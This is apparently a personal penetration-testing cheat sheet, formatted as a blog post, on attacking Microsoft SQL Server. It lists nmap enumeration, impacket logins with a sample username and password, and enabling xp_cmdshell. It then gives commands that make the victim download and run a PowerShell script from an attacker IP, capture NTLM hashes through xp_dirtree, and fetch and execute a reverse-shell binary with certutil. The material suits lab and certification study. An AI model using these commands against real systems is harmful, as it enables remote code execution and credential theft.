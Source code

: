 ```yaml
---
layout: post
title: MS SQL
description: MS SQL
summary: MS SQL
tags: [db,enum]
minute: 1
---
```

## Ports
* 1433/tcp

## Gathering info
```bash
# Nmap
nmap -p1433 --script "*ms-sql*" 10.10.209.245
```

## Ways of logging in
```bash
# Using impacket
impacket-mssqlclient ustoun.local/svc-kerb:superman@10.10.209.245

# inside windows cli
sqlcmd /S localhost -q "select @@version;"

# others
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>
```

## SQL Commands
```sql
-- checks version
select @@version;

-- show databases
EXEC sp_databases;

-- checks if use has sysadmin privileges (1 means
-- sysadmin)
SELECT IS_SRVROLEMEMBER('sysadmin')

-- enables xp_cmdshell
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

-- executes commands
xp_cmdshell "whoami"
xp_cmdshell dir

-- make victim download from our machine (10.10.14.60)
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.60/shell.ps1\");"

-- Intercept NTLM hash of user (be sure to fire up
-- responder first)
SQL> xp_dirtree '\\10.11.40.33\anything'

-- Transfer a reverse shell binary and execute it
xp_cmdshell certutil -urlcache -f http://10.11.40.33/reverse.exe c:\users\SVC-Kerb.DC01\reverse.exe
xp_cmdshell c:\users\SVC-Kerb.DC01\reverse.exe
```

## Files
```bash
# may contain passwords, used for migration purposes
*.dtsConfig
```

## Others
* [OSCP personal cheatsheet](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#mssql---1433)
